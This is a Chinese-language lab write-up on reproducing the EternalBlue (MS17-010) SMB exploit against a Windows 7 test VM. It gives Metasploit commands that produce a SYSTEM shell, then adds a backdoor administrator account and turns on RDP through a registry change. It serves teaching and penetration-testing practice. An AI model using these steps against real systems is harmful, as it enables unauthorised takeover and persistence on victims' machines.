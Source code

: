 # 永恒之蓝(Eternal Blue)

永恒之蓝漏洞爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。

2017年5月12日起，全球范围内爆发基于Windows网络共享协议进行攻击传播的蠕虫恶意代码，这是不法分子通过改造之前泄露的NSA黑客武器库中“永恒之蓝”攻击程序发起的网络攻击事件。五个小时内，包括英国、俄罗斯、整个欧洲以及中国国内多个高校校内网、大型企业内网和政府机构专网中招，被勒索支付高额赎金才能解密恢复文件，对重要数据造成严重损失。



### SMB（全称是Server Message Block）
是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。




### SMB工作原理是什么？

（1）：首先客户端发送一个SMB negport 请求数据报，，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

（2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

（3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

（4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。


# 攻击复现

## 漏洞描述
Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。

## 实验环境

* VMware
* 攻击 Kali Linux
* 靶机 win7

## 实验过程

### Nmap扫描

---
#### Host Discovery

默认情况下，Nmap 会进行主机发现（Host Discovery），然后对它确定在线的每个主机执行端口扫描（port scan）。

    使用 -Pn 跳过Host Discovery

其中，Host Discovery包括（当是特权用户时，简单说root权限）：

    an ICMP echo request
    a TCP SYN packet to port 443
    a TCP ACK packet to port 80
    an ICMP timestamp request

当由非特权用户执行时，Host Discovery只包括:

    SYN packets are sent (using a connect call) to ports 80 and 443

端口 open|fliter状态， 靶机防火墙设置了规则。

--help 查看更多扫描模式

---
对靶机进行 ms17-010脚本扫描
![img.png](imgs/img3.png)

### Metasploit Framework

---
Metasploit 是一款强大的渗透框架。 H.D. Moore在2003年发布MSF时，计算机安全状况也被永久性地改变了。仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来攻击那些未打过补丁或者刚刚打过补丁的漏洞。软件厂商再也不能推迟发布针对已公布漏洞的补丁了，这是因为MSF团队一直都在努力开发各种攻击工具，并将它们贡献给所有MSF用户。

#### 渗透攻击（Exploit）
渗透攻击是指由攻击者或者渗透测试者利用系统、应用或服务中的安全漏洞，所进行的攻击行为。

流行的攻击技术包括：缓冲区溢出、Web应用程序漏洞攻击，以及利用配置错误等。
#### 攻击载荷（Payload）
攻击载何是我们期望目标系统在被渗透攻击后而执行的代码。在MSF框架中可以自由的选择、传送和植入。

反弹式shell是一种从目标主机到攻击主机创建网络连接，并提供命令行shell的攻击载荷。

bind shell攻击载荷则在目标主机上将命令行shell绑定到一个打开的监听端口，攻击者可以连接这些端口来取得shell交互。

#### 代码（shellcode）
shellcode是在渗透攻击时作为攻击载荷运行的一组机器指令。shellcode通常用汇编语言编写。在大多数情况下，目标系统执行了shellcode这一组指令后，才会提供一个命令行shell或者Meterpreter shell，这也是shellcode名称的由来。

####  模块（Module）
在MSF中，一个模块是指MSF框架中所使用的一段软件代码组件。在某些时候，你可能会使用一个渗透攻击模块（Exploit module），也就是用于实际发起渗透攻击的软件组件。而在其它时候，则可能使用一个辅助模块（auxiliary module），用来扫描一些诸如扫描或系统查点的攻击动作。

#### 监听器（Listener）
监听器是MSF中用来等待连入网络连接的组件。举例来说，在目标主机被渗透攻击之后，它可能会通过互联网回连到攻击主机上，而监听器组件在攻击主机上等待被渗透攻击的系统来连接，并负责处理这些网络连接。

#### MSF Kali下存放目录：/usr/share/MSF-framework/
![img.png](imgs/img1.png)

---
更新 metasploit ，并开启 msfconsole

    apt install metasploit-framework
    msfconsole

![img.png](imgs/img2.png)

查找 Eternal-blue 漏洞
![img.png](imgs/img4.png)
use 2， 设置 payload，使用show options 查看攻击设置
![img.png](imgs/img5.png)
设置攻击目标。

    set rhost 192.168.221.137
    show options
    run

run 渗透。
![img.png](imgs/img6.png)

meterpreter shell命令

    whoami
    nt authority\system

nt authority\system 代表程序以系统身份运行，系统内置的系统账户。
system账户具有比administration更高的权限。

### meterpreter

后渗透

在win中创立网络用户，赋予管理员权限



    net user username password /add
    net localgroup administrators username /add
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

kali 新终端 
    
    rdesktop 192.168.221.136

![img.png](imgs/img7.png)

选择其他用户 稍等片刻。

![img.png](imgs/img8.png)

![img.png](imgs/img9.png)

此时靶机 退出登录
![img.png](imgs/img10.png)


后渗透。。。。

meterpreter退出

    ‘Ctrl + \’


